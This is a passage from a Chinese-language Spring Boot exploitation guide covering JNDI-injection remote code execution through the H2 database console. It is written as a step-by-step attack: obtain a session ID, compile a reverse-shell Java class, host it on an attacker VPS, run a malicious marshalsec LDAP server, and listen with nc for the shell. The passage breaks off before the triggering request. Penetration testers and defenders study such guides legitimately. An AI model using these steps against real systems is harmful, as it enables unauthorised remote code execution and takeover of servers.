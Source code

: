#### 0x07：h2 database console JNDI RCE

**利用条件：**

* 存在 `com.h2database.h2` 依赖（版本要求暂未知）
* spring 配置中启用 h2 console `spring.h2.console.enabled=true`
* 目标可以请求攻击者的服务器（请求可出外网）
* JNDI 注入受目标 JDK 版本影响，jdk < 6u201/7u191/8u182/11.0.1（LDAP 方式）

**利用方法：**

**步骤一：访问路由获得 jsessionid**

直接访问目标开启 h2 console 的默认路由 `/h2-console`，目标会跳转到页面 `/h2-console/login.jsp?jsessionid=xxxxxx`，记录下实际的 `jsessionid=xxxxxx` 值。

**步骤二：准备要执行的 Java 代码**

编写优化过后的用来反弹 shell 的 [Java 示例代码](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/JNDIObject.java) `JNDIObject.java`，

使用兼容低版本 jdk 的方式编译：

```
javac -source 1.5 -target 1.5 JNDIObject.java
```

然后将生成的 `JNDIObject.class` 文件拷贝到 **步骤二** 中的网站根目录。

**步骤三：托管 class 文件**

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

将**步骤二**中编译好的 class 文件拷贝到 HTTP 服务器根目录。

**步骤四：架设恶意 ldap 服务**

下载 [marshalsec](https://github.com/mbechler/marshalsec) ，使用下面命令架设对应的 ldap 服务：

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://your-vps-ip:80/#JNDIObject 1389
```

**步骤五：监听反弹 shell 的端口**

一般使用 nc 监听端口，等待反弹 shell

```
nc -lv 443
```

**步骤六：发包触发 JNDI 注入**

根据实际情况，替换下面数据中的 `jsessionid=xxxxxx`、`www.example.com` 和 `ldap://your-vps-ip:1389/JNDIObject`

